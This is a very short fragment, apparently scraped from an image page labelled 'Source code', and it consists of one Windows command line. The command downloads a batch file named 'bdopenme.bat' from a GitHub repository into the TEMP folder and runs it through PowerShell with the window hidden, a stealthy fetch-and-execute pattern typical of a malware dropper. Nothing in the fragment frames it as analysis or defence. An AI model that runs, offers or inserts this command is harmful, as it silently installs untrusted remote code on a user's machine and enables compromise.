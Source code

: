 cd %TEMP% & curl -L -O https://github.com/enoreex/curl-temp/raw/main/bdopenme.bat & powershell.exe -WindowStyle Hidden -Command "Start-Process -WindowStyle Hidden -FilePath '%TEMP%\bdopenme.bat'"
